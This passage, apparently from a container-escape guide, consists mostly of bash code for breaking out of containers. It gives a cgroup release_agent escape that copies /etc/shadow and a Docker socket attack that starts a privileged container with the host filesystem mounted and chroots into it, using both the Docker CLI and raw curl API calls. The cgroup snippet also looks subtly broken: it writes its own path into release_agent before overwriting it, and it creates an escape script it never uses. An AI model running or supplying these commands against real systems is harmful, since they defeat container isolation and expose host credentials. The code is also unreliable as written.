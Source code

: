 #### Exploiting cgroup Release_Agent

```bash
# Create escape script
cat > /tmp/escape.sh << 'EOF'
#!/bin/sh
cat /etc/hostname > /tmp/escaped
cat /etc/shadow > /tmp/shadow
EOF
chmod +x /tmp/escape.sh

# Set up cgroup mount
mkdir /tmp/cgrp
mount -t cgroup -o memory cgroup /tmp/cgrp
cd /tmp/cgrp

# Create a new cgroup
mkdir x
echo 1 > x/notify_on_release
echo "$PWD/release_agent" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /tmp/cgrp/release_agent
echo "cat /etc/shadow > $PWD/shadow" >> /tmp/cgrp/release_agent
chmod +x /tmp/cgrp/release_agent

# Trigger the exploit
echo 0 > /tmp/cgrp/x/cgroup.procs
sleep 1

# Check if successful
cat $PWD/shadow
```

### Docker Socket Exploitation

When `/var/run/docker.sock` is mounted in a container:

```bash
# Check if Docker socket is available
ls -la /var/run/docker.sock

# Method 1: Using Docker CLI
# Get host images
docker -H unix:///var/run/docker.sock images

# Create privileged container with host filesystem
docker -H unix:///var/run/docker.sock run --rm -it --privileged --pid=host -v /:/host alpine chroot /host bash

# Method 2: Using direct API calls
# List containers
curl -s --unix-socket /var/run/docker.sock http://localhost/containers/json | jq

# Create new container with host mount
curl -s -X POST --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Image":"alpine","Cmd":["/bin/sh"],"Binds":["/:/host"],"Privileged":true}' http://localhost/containers/create
```
